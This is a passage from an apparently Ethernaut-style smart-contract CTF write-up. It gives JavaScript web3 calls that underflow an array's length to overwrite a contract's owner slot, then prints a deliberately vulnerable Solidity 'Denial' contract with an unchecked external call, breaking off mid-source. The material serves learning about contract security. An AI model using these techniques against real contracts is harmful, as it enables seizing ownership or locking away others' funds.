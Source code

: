 Solidity stores array length in a slot and its elements in the hash of the slot, [this](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/) blog explains the storage. If we continue to decrease the array length with it will become `2^256` because of integer underflow. Therefore we can index every slot of the storage. Now we just have to calculate the index of the slot 0 (which holds the owner). By using the `revise` function we can update the data at that slot. Hence we could potentially change the owner of the contract. The first element of the array will be stored at slot (keccak256 of slot where the length of the array is saved). The index of the slot0 would be slot keccak256(1) + (2\*\*256 - keccak256(1)).

> #### Solution:
> - We need to make contact first.
> ```js
> await contract.make_contract();
> ```
> - Then we have to make array length underflow by calling `retract()`.
> ```js
> await contract.retract();
> ```
> - Index of slot 0 is `2**256 - keccak256("0x0000000000000000000000000000000000000000000000000000000000000001")`
> ```js
> index = web3.utils.encodePacked(web3.utils.toBN("0x1".padEnd("67", "0")).sub(web3.utils.toBN(web3.utils.keccak256("0x000000000000000000000000000000000000000000000000000000000000001"))))
> ```
> 
> - Call the `revise` function to update the data.
> ```js
> await contract.revise(index, web3.eth.abi.encodeParameter("address", player));
> ```

<hr>

## 20 Denial
We have to become the partner, and block the owner of the contract from withdrawing the funds.
#### Source:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }
```